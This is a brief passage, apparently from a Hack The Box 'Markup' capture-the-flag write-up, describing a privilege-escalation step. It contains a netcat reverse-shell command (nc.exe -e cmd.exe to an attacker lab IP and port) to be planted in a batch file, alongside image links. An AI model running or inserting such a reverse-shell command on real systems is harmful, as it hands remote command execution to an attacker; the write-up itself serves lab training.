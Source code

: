 ![1](/assets/images/htb/markup/awang_2.png)

- First, let's start our `nc for listening to the connection`
- Then, put this payload in `job.bat`
```powershell
c:\log-management\nc.exe -e cmd.exe 10.10.14.43 9901
```
![1](/assets/images/htb/markup/tulis.png)
